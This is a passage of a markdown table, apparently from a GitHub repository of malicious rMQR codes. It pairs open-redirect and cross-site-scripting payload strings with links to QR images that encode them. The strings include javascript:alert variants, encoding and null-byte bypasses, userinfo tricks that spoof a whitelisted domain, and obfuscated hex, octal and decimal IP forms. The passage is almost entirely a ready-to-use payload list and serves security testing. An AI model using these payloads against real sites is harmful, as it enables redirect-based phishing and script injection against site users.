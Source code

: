 | `https://google.com` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/118.png) |
| `https://www.whitelisteddomain.tld@google.com` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/119.png) |
| `javascript:alert(1);` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/120.png) |
| `javascript:alert(1)` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/121.png) |
| `//javascript:alert(1);` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/122.png) |
| `/javascript:alert(1);` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/123.png) |
| `//javascript:alert(1)` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/124.png) |
| `/javascript:alert(1)` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/125.png) |
| `/%5cjavascript:alert(1);` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/126.png) |
| `/%5cjavascript:alert(1)` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/127.png) |
| `//%5cjavascript:alert(1);` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/128.png) |
| `//%5cjavascript:alert(1)` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/129.png) |
| `/%09/javascript:alert(1);` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/130.png) |
| `/%09/javascript:alert(1)` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/131.png) |
| `java%0d%0ascript%0d%0a:alert(0)` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/132.png) |
| `//google.com` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/133.png) |
| `https:google.com` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/134.png) |
| `//google%E3%80%82com` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/135.png) |
| `\/\/google.com/` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/136.png) |
| `/\/google.com/` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/137.png) |
| `//google%00.com` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/138.png) |
| `https://www.whitelisteddomain.tld/https://www.google.com/` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/139.png) |
| `";alert(0);//` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/140.png) |
| `javascript://www.whitelisteddomain.tld?%a0alert%281%29` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/141.png) |
| `http://0xd8.0x3a.0xd6.0xce` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/142.png) |
| `http://www.whitelisteddomain.tld@0xd8.0x3a.0xd6.0xce` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/143.png) |
| `http://3H6k7lIAiqjfNeN@0xd8.0x3a.0xd6.0xce` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/144.png) |
| `http://XY>.7d8T\205pZM@0xd8.0x3a.0xd6.0xce` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/145.png) |
| `http://0xd83ad6ce` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/146.png) |
| `http://www.whitelisteddomain.tld@0xd83ad6ce` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/147.png) |
| `http://3627734734` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/150.png) |
| `http://www.whitelisteddomain.tld@3627734734` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/151.png) |
| `http://3H6k7lIAiqjfNeN@3627734734` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/152.png) |
| `http://XY>.7d8T\205pZM@3627734734` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/153.png) |
| `http://472.314.470.462` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/154.png) |
| `http://www.whitelisteddomain.tld@472.314.470.462` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/155.png) |
| `http://0330.072.0326.0316` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/data/open-redirect/158.png) |